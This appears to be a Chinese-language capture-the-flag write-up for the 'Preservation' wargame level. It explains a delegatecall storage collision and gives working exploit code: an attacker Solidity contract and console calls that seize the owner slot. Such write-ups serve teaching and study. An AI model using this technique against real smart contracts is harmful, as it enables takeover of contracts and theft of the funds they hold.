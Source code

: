 ## 16. Preservation
目標 `owner = player`

觀察 setFirstTime 有個 delegatecall
```solidity
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
```
```solidity
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```
仔細看會發現有 storage collision，`storedTime` 跟 `timeZone1Library` 都在 slot 0，可以把 timeZone1Library 改成自己的合約，可以藉由 delegatecall 呼叫自己的合約，並利用 storage collision 改掉 owner。

```
       |  LibraryContract         Preservation          Exploit
----------------------------------------------------------------------
slot 0 |     storedTime   <-   timeZone1Library     timeZone1Library
slot 1 |        _              timeZone2Library     timeZone2Library
slot 2 |        _                   owner                owner
slot 3 |        _                 storedTime
```

### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract PreservationAttack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

```javascript
await contract.setFirstTime(exp)
await contract.setFirstTime(1)
```
